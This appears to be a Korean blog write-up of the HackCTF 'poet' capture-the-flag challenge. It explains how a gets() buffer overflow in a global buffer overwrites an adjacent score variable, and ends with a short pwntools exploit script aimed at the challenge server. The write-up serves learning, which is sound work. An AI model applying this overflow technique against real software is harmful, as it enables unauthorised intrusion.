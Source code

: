 ```yaml
---
layout: post
title:  "HacCTF poet write-up"
date:   2020-01-10 19:45:55
image:  hackctf_poet.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


# [HackCTF] poet

Date: Jan 10, 2020
Tags: report

### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled.png)

NX 비트가 걸려있다.  따라서 메모리 영역의 쓰기 권한이 없다

 

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%201.png)

프로그램을 실행시키면 다음과 같은 문구가 나온다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%202.png)

멀 입력하라고 나온다. 문제로 봤을때 1000000점을 획득해야 되는 것 같다
- **<main>**  
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%203.png)

- **<get_poem>**  
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%204.png)


메인 함수를 보면 while문 안에 get_poem(), get_author(), rate_poem() 함수가 있다.

get_poem 함수에서 처음 입력을 받게 되고, poem 이라는 변수에 저장을 하게 된다. poem 변수는 전역변수인 듯 하다


- **<rate_poem()>**  
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%205.png)

- **<get_author>**  
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%206.png)


get_author 함수에서 두번째로 입력을 받는다. unk_6024A0 이라는 변수에 입력을 받는데, 이역시 전역변수이다

rate_poem() 함수에서 점수를 계산하는 로직이 존재하는데, 일정 조건에 맞아야지 dwor_6024E0 이라는 변수에 100씩 저장하게 된다. 이 변수 역시 전역 변수이고 메인문에서 1,000,000 와 비교하는 비교대상이다.

따라서 dwor_6024E0  변수 값을 알맞게 조정해주면 될 것이다. 그래야 while을 탈출하여 reward 함수가 실행되게 될것이고 그곳에서 flag를 확인 가능하다

### 2. 접근방법

느낌상 해당 조건문에 맞게 하나씩 값을 노가다로 넣는 것을 아닐 것이고, gets 함수의 bof를 이용하여 조건에 맞게 수정해주면된다

- 필요 값들
    1. **dwor_6024E0**  : 비교 대상

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%207.png)

    2. **unk_6024A0 :** 입력한 값이 들어가는 곳

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%208.png)

따라서 unk_6024A0에서 bof를 이용하여  dwor_6024E0 값을 변경하면 된다

두 주소의 차이는 64이기때문에, "A"*64+1,000,000 이렇게 입력해주면 되는 간단한 문제이다

### 3. 풀이

최종 익스 코드는 다음과 같다

    from pwn import *
    
    p = remote("ctf.j0n9hyun.xyz",3012)
    #p = process("./poet")
    #gdb.attach(p)
    
    p.recvuntil("> ")
    
    payload = "A"*10
    
    p.sendline(payload)
    
    p.recvuntil("> ")
    
    payload2 = "B"*64
    payload2 += p64(1000000)
    
    p.sendline(payload2)
    
    p.interactive()

### 4. 몰랐던 개념

처음에 strcpy 함수가 보여서 이를 이용하려고 했으나, 복사하려는 값의 배열크기가 충분하지 않아서 실패하였다. 문제와 변수 크기 이런것을 주의깊게 보면서 풀어야 할 것 같다